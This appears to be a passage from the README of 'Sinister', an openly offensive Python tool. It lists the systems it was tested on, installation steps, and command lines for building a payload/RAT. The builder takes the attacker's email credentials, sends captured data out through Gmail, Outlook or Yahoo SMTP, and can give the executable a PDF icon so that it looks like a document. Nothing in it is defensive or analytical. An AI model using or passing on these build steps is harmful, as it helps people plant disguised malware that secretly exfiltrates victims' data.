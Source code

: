 
## Tested On
[![Kali)](https://www.google.com/s2/favicons?domain=https://www.kali.org/)](https://www.kali.org) **Kali Linux - ROLLING EDITION**

[![Windows)](https://www.google.com/s2/favicons?domain=https://www.microsoft.com/en-in/windows/)](https://www.microsoft.com/en-in/windows/) **Windows 10**

[![Windows)](https://www.google.com/s2/favicons?domain=https://www.microsoft.com/en-in/windows/)](https://www.microsoft.com/en-in/windows/) **Windows 8.1 - Pro**

[![Windows)](https://www.google.com/s2/favicons?domain=https://www.microsoft.com/en-in/windows/)](https://www.microsoft.com/en-in/windows/) **Windows 7 - Ultimate**

## Prerequisite
- [x] Python 3.X
- [x] Few External Modules

## How To Use in Linux
```bash
# Navigate to the /opt directory (optional)
$ cd /opt/

# Clone this repository
$ git clone https://github.com/PushpenderIndia/Sinister.git

# Navigate to Sinister folder
$ cd Sinister

# Installing dependencies
$ bash installer_linux.sh

*** Note When The Python Installer DialogBox Appear while executing installer_linux.sh ***
    * Click on custom install 
    * Select Path to : C:/Python37-32
    ### So that the python is installed in this path (Inside Wine) : ~/.wine/drive_c/Python37-32

# If you are getting any errors while executing installer_linux.sh, try to install using installer_linux.py
$ python3 installer_linux.py

$ chmod +x Sinister.py
$ python3 Sinister.py --help

# Making Payload/RAT
$ python3 Sinister.py -e youremail@gmail.com -p YourEmailPass -l -o output_file_name --icon icon_path

# Making Payload using GMAIL SMTP Server, Port Configuration (Default SMTP Server = smtp.gmail.com, Default SMTP Port = 587)
$ python3 Sinister.py -e youremail@gmail.com -p YourEmailPass -l -o output_file_name --icon icon_path

# Making Payload using OUTLOOK SMTP Server, Port Configuration
$ python3 Sinister.py -e youremail@gmail.com -p YourEmailPass -x smtp-mail.outlook.com -y 587 -l -o output_file_name --icon icon_path

# Making Payload using YAHOO SMTP Server, Port Configuration
$ python3 Sinister.py -e youremail@gmail.com -p YourEmailPass -x smtp.mail.yahoo.com -y 587 -l -o output_file_name --icon icon_path

Note: You can also use our custom icons from the icon folder, just use them like this  --icon icon/pdf.ico
```